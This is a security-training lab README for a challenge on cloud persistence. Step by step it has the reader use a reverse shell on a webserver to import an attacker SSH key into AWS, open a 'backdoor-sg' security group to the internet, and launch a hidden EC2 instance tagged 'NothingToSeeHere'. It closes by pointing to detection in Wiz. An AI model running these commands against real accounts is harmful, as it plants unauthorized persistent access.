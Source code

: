 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
2. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
3. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
4. Ensure your reverse shell to the webserver is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
5. Run the following commands to install the AWS CLI (note we're using the tmp directory which is writeable):
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "/tmp/awscliv2.zip" && unzip /tmp/awscliv2.zip -d /tmp/aws && cd /tmp/aws && ./aws/install --install-dir /tmp/aws-cli --bin-dir /tmp/aws-cli-bin && /tmp/aws-cli-bin/aws sts get-caller-identity
```
6. Run the following command to create a file containing your attacker public key
```bash
echo "{attacker_key.pub}" > /tmp/attacker_key.pub
```
7. Run the following command to import your SSH Public Key
```bash
/tmp/aws-cli-bin/aws ec2 import-key-pair --key-name attacker_key --public-key-material fileb:///tmp/attacker_key.pub
```
8. Run the following command to create a security group
```bash
/tmp/aws-cli-bin/aws ec2 create-security-group \
--group-name backdoor-sg \
--description "SSH access for attacker" \
--vpc-id $(/tmp/aws-cli-bin/aws ec2 describe-vpcs --query "Vpcs[0].VpcId" --output text)
```
9. Run the following command to create a security group rule:
```bash
/tmp/aws-cli-bin/aws ec2 authorize-security-group-ingress \
--group-id $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters "Name=group-name,Values=backdoor-sg" --query "SecurityGroups[0].GroupId" --output text) \
--protocol tcp \
--port 22 \
--cidr 0.0.0.0/0
```
10. Run the following command to launch a new shadow EC2 instance:
```bash
/tmp/aws-cli-bin/aws ec2 run-instances \
--instance-type t2.micro \
--image-id ami-0aa2b7722dc1b5612 \
--subnet-id $(/tmp/aws-cli-bin/aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
--tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
--security-group-ids $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters Name=group-name,Values=backdoor-sg --query "SecurityGroups[0].GroupId" --output text) \
--key-name attacker_key \
--associate-public-ip-address
```
11. Run the following command to get the Public IP address of the newly created EC2 instance:
```bash
/tmp/aws-cli-bin/aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=NothingToSeeHere" \
           "Name=instance-state-name,Values=running" \
  --query "Reservations[0].Instances[0].PublicIpAddress" \
  --output text

```
12. From your laptop (where you created your attacker_key) SSH to the newly created EC2 instance:
```bash
ssh -i attacker_key ubuntu@ip_address
```


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

